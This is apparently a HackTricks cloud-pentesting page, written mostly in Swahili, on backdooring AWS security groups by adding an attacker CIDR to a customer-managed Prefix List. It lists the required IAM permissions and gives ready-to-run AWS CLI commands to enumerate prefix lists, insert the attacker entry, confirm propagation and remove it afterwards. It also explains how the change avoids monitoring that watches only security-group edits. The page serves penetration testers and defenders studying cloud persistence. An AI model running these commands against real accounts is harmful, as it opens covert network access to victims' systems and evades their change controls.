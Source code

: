 # AWS - Security Group Backdoor via Managed Prefix Lists

{{#include ../../../../banners/hacktricks-training.md}}

## Muhtasari
Tumia vibaya customer-managed Prefix Lists kuunda njia ya kuingia kwa siri. Kama rule ya security group (SG) inarejea managed Prefix List, mtu yeyote mwenye uwezo wa kubadilisha list hiyo anaweza kimya kimya kuongeza CIDRs zinazodhibitiwa na mshambulizi. Kila SG (na huenda pia Network ACL au VPC endpoint) inayorejea list hiyo hukubali mara moja mikoa ya IP mpya bila mabadiliko yoyote yanayoonekana kwenye SG.

## Athari
- Upanuzi wa papo hapo wa allowed IP ranges kwa SG zote zinazorejea prefix list, ukiepuka change controls ambazo zinafuatilia tu uhariri wa SG.
- Inaruhusu backdoors ya kudumu ya ingress/egress: weka CIDR hatarishi iliyofichwa ndani ya prefix list wakati rule ya SG inaonekana bila mabadiliko.

## Mahitaji
- IAM permissions:
- `ec2:DescribeManagedPrefixLists`
- `ec2:GetManagedPrefixListEntries`
- `ec2:ModifyManagedPrefixList`
- `ec2:DescribeSecurityGroups` / `ec2:DescribeSecurityGroupRules` (kutambua SG zilizounganishwa)
- Optional: `ec2:CreateManagedPrefixList` if creating a new one for testing.
- Environment: Angalau rule moja ya SG inayorejea target customer-managed Prefix List.

## Variables
```bash
REGION=us-east-1
PREFIX_LIST_ID=<pl-xxxxxxxx>
ENTRY_CIDR=<attacker-cidr/32>
DESCRIPTION="Backdoor – allow attacker"
```
## Hatua za kushambulia

1) **Orodhesha prefix lists zinazowezekana na consumers**
```bash
aws ec2 describe-managed-prefix-lists \
--region "$REGION" \
--query 'PrefixLists[?OwnerId==`<victim-account-id>`].[PrefixListId,PrefixListName,State,MaxEntries]' \
--output table

aws ec2 get-managed-prefix-list-entries \
--prefix-list-id "$PREFIX_LIST_ID" \
--region "$REGION" \
--query 'Entries[*].[Cidr,Description]'
```
Tumia `aws ec2 describe-security-group-rules --filters Name=referenced-prefix-list-id,Values=$PREFIX_LIST_ID` kuthibitisha ni sheria gani za SG zinategemea orodha hiyo.

2) **Ongeza attacker CIDR kwenye prefix list**
```bash
aws ec2 modify-managed-prefix-list \
--prefix-list-id "$PREFIX_LIST_ID" \
--add-entries Cidr="$ENTRY_CIDR",Description="$DESCRIPTION" \
--region "$REGION"
```
3) **Thibitisha kuenezwa kwa security groups**
```bash
aws ec2 describe-security-group-rules \
--region "$REGION" \
--filters Name=referenced-prefix-list-id,Values="$PREFIX_LIST_ID" \
--query 'SecurityGroupRules[*].{SG:GroupId,Description:Description}' \
--output table
```
Trafiki kutoka `$ENTRY_CIDR` sasa imeruhusiwa kila mahali prefix list inapotajwa (kawaida outbound rules kwenye egress proxies au inbound rules kwenye shared services).

## Ushahidi
- `get-managed-prefix-list-entries` inaonyesha CIDR ya mshambulizi na maelezo.
- `describe-security-group-rules` bado inaonyesha sheria ya asili ya SG inayorejelea prefix list (hakuna marekebisho ya SG yaliyoripotiwa), lakini trafiki kutoka CIDR mpya inafanikiwa.

## Usafishaji
```bash
aws ec2 modify-managed-prefix-list \
--prefix-list-id "$PREFIX_LIST_ID" \
--remove-entries Cidr="$ENTRY_CIDR" \
--region "$REGION"
```
{{#include ../../../../banners/hacktricks-training.md}}
